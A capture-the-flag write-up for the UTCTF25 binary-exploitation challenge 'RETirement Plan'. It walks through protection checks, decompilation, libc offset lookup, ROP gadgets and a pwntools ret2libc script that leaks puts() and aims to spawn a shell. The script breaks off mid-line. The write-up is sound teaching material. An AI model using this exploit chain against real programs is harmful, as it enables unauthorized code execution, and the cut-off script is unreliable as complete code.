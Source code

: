 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:  

![Binary](decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.  
2. **Calculate system and "/bin/sh" addresses** using known offsets.  
3. **Exploit buffer overflow** to call `system("/bin/sh")`.  

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'
').strip()
puts_addr = u64(output.ljust(8, b'
